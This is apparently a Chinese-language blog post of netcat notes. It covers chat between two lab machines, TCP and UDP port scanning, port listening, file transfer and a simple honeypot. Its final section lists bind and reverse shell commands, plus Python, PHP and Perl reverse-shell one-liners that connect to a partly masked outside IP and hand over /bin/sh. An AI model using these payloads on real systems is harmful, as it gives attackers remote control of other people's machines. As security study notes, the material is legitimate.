 ```yaml
---
layout: post
title: "NetCat Tools Notes"
subtitle: "NetCat Tools Notes"
date: 2019-06-08
author: ppbibo
category: Notes
finished: true
---
```

[TOC]

## NetCat 使用笔记



### Mac ip ：

​			192.168.10.52

### 虚拟机(Windows 7 ) ip : 

​			192.168.10.53



### 0x1 对讲机

1. 设置Mac机器为服务端开启监听模式，执行下面命令

```bash
$ nc -lv 9999
```

参数解析：

​	-l  使用监听模式，管控传入的资料；

​	-v  显示指令执行过程；



2. windows 作为客户端连接 Mac 机器，执行以下命令

```bash
>NC.EXE -nvv 192.168.10.52 9999
```

参数解析：

​	-n  直接使用IP地址，而不通过域名服务器；

​	-v  显示指令执行过程；

![netcat 对讲机](/static/img/netcat 对讲机.png)



### 0x2 端口扫描

1. 查看 Windows 机器开启的端口，执行下面命令

```bash
>netstat -an | more
```



2. mac机器对windwos指定端口进行扫描

```bash
$ nc -v 192.168.10.53 3389
```

![端口扫描](/static/img/端口扫描.png)



3. 扫描windows机器 端口为130-445的网段 , 执行命令

```bash
$ nc -v -z -w 3 192.168.10.53 130-445
```

参数解析：

​	-z  将输入输出关掉，在扫描时使用；

​	-w  设置超时时间为3秒；



![端口段扫描](/static/img/端口段扫描.png)



4. 扫描指定主机的某个UDP端口段，并且返回端口信息

```bash
$ nc -v -z -u 192.168.10.53 20-1024
```

参数解析：

​	-u  使用UDP传输协议；



### 0x3 端口监听

执行命令

```bash
$ nc -lv 81
```

浏览器访问

```bash
http://192.168.10.52:81/
```

*注：先设置监听（不能出现端口冲突），之后如果有外来访问则输出该详细信息到命令行*

![监听本地端口](/static/img/监听本地端口.png)



### 0x4 文件传输

1. 在本机上执行命令

```bash
$ nc -l  9999 < log.txt 
```

2. 在接收文件的机器上执行命令

```bash
nc 192.168.10.52 9999 > log.txt
```



### 0x5 蜜罐

作为蜜罐使用

```bash
>nc -L -p  Port > log.txt
```

参数解析：

​	-L  参数可以不停的监听某一个端口，直到Ctrl+C为止

​	*注意：这一个命令参数“-L”在Windows中有，现在的Linux中是没有这个选项的*



### 0x6 获取shell

获取shell分为正向shell和反向shell

**正向shell ：客户端连接服务器端，想要获取服务器端的shell**

1. 服务器端执行命令

```bash
$ nc -lv 5555 -e /bin/sh
```

2. 客户端执行命令

```bash
$ nc 10x.2xx.150.37 5555
```



**反向shell：客户端连接服务器端，服务器端想要获取客户端的shell**

3. 服务器执行命令

```bash
$ nc -lv 5555
```

4. 客户端执行命令

```bash
$ nc 10x.2xx.150.37 5555 -e /bin/sh
```



**当目标主机没有nc的时候利用python反弹shell**

5. 本地执行命令

```bash
$ nc -lv 5555
```

6. 在目标机器执行命令

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10x.2xx.150.37",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



**利用PHP反弹shell-Payload**

```bash
php -r '$sock=fsockopen("10x.2xx.150.37",5555);exec("/bin/sh -i <&3 >&3 2>&3");'
```

*注：PHP在一般情况下事禁用exec()函数的*





**利用perl反弹shell-Payload**

```bash
perl -e 'use Socket;$i="10x.2xx.150.37";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

*注：未进行测试*